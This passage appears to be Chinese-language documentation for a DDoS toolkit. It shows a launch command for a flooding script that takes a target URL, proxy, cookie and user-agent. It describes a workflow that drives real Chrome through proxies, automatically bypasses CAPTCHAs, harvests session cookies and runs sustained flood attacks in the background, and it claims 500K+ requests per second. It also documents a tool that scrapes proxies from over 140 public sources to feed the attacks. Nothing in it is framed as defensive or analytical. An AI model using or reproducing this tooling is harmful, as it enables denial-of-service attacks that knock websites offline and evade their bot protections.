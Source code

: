 ```bash
# ✅ [CMD] screen -dm node nflood.js "https://..." 300 10 "1.2.3.4:8080" 10 "cookie=xxx" "ua=xxx"
```

**工作流程**:
```
1. 启动浏览器（真实 Chrome）
   ├─ 使用代理
   └─ 拦截字体（optimize）

2. 访问目标
   ├─ 检测验证码类型
   └─ 自动绕过

3. 提取 Cookie + UA + IP
   └─ 传递给 nflood.js

4. 启动洪水攻击
   ├─ 在 Screen 后台运行
   └─ 持续攻击直到时间结束

5. 重复（多个浏览器并发）
   └─ 代理失败时自动跳过（--close）
```

**性能指标**:
- **自动化**: 100%
- **成功率**: 85%+（取决于代理质量）
- **并发**: 30+ 浏览器
- **总 QPS**: 500K+ (30 浏览器 × 10 请求/s × 1.5K 倍率)

---

### 🎯 工具 4: `github_list.js` - 代理自动采集器

**功能**: 从 140+ GitHub 源自动拉取代理

**数据源**:
```javascript
// HTTP 代理源
openproxylist.xyz
TheSpeedX/PROXY-List
Zaeem20/FREE_PROXIES_LIST
MuRongPIG/Proxy-Master
... (共 140+ 个源)

// SOCKS4/SOCKS5 代理源
monosans/proxy-list
TheSpeedX/SOCKS-List
hookzof/socks5_list
... (共 50+ 个源)
```

**使用方法**:
```bash
# 运行采集器
node github_list.js

# 输出文件
proxies_http.txt    # HTTP 代理
proxies_socks4.txt  # SOCKS4 代理
proxies_socks5.txt  # SOCKS5 代理
proxies_all.txt     # 所有代理
```
